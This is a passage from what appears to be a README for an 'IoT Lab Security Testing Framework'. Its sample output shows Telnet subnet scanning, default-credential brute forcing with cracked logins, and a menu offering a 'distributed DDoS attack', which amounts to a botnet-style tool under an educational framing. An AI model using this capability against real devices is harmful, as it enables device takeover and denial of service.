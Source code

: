 ### Database Storage
Results are automatically stored in `iot_lab_results.db` (SQLite database) containing:
- IP addresses
- Successful credentials
- Device banners
- Discovery timestamps

## 🎓 Educational Use Cases

### Lab Scenarios
1. **IoT Device Discovery**: Learn how attackers find vulnerable devices
2. **Credential Analysis**: Study common default passwords in IoT devices
3. **Network Segmentation**: Test isolation between network segments
4. **Incident Response**: Practice detecting and responding to compromises
5. **Vulnerability Assessment**: Document security weaknesses in lab devices
6. **Botnet Simulation**: Understand how attackers leverage multiple compromised devices
7. **Distributed Attack Analysis**: Study the impact of coordinated attacks

## 🔍 Sample Output

```
======================================================================
IoT Lab Security Testing Framework - Interactive Menu
======================================================================

Available Operations:
--------------------------------------------------
1. Scan subnet for vulnerable devices
2. List discovered vulnerable devices
3. Show discovered credentials
4. Connect to vulnerable device
5. Run coordinated reconnaissance
6. Launch distributed DDoS attack
7. Change scan speed
8. Exit
--------------------------------------------------

Enter your choice (1-8): 1

Enter subnet to scan (e.g., 192.168.1.0/24): 192.168.1.0/24
[INFO] Scanning subnet 192.168.1.0/24 for open Telnet ports...
[+] Found open Telnet on 192.168.1.100
[+] Found open Telnet on 192.168.1.101
[INFO] Found 2 hosts with open Telnet ports

Enter credentials file path (or press Enter for default): 
[INFO] Loaded 20 credential pairs
[INFO] Testing 192.168.1.100...
[+] SUCCESS: 192.168.1.100 - admin:admin
[+] CREDENTIALS: admin:admin
[INFO] Testing 192.168.1.101...
[+] SUCCESS: 192.168.1.101 - ipcamadmin:admin
[+] CREDENTIALS: ipcamadmin:admin

Press Enter to continue...
```
